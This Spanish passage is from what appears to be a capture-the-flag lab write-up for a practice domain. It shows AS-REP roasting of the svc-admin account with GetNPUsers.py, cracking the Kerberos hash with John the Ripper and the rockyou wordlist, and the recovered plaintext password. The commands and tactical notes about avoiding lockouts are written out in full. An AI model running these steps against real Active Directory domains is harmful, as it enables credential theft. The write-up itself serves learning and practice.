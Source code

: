 📌 Notas

Kerbrute valida existencia de usuarios en Kerberos sin probar contraseñas, por lo que no bloquea cuentas.


## Paso 8 — **AS-REP Roasting** con `GetNPUsers.py`

**Objetivo**

Comprobar si alguno de los usuarios válidos **no requiere pre-autenticación Kerberos** (flag `DONT_REQUIRE_PREAUTH`).  

Si es así, podemos solicitarle un **AS-REP** y obtener un **hash crackeable** sin conocer su contraseña.

<img width="1151" height="204" alt="Usamos getnpusers para sacar el hash" src="https://github.com/user-attachments/assets/83576c27-0e70-4fd4-8741-9377f9158f0e" />


**Comando usado** (según captura)

```bash
GetNPUsers.py spookysec.local/svc-admin -no-pass
```

Resultado

Se devuelve un hash tipo $krb5asrep$23$... para el usuario svc-admin:

📌 Lectura táctica: svc-admin no requiere preautenticación, por lo que el KDC nos entrega un AS-REP directamente. Esto habilita ataque offline (no genera bloqueos de cuenta).


## Paso 9 — **Crack** del hash AS-REP con John the Ripper

**Ficheros**

```bash
# Guardamos el hash obtenido en el paso anterior
cat > hash.txt << 'EOF'
$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:03...<hash completo>...
EOF
Cracking con John
````
bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt

<img width="1145" height="281" alt="desciframos el hash con john para el usuario" src="https://github.com/user-attachments/assets/b7eb37c7-e369-4795-8261-0deecb7f33ff" />


Resultado (captura)

management2005   ($krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL)
✅ Credenciales válidas obtenidas

Usuario: svc-admin

Password: management2005
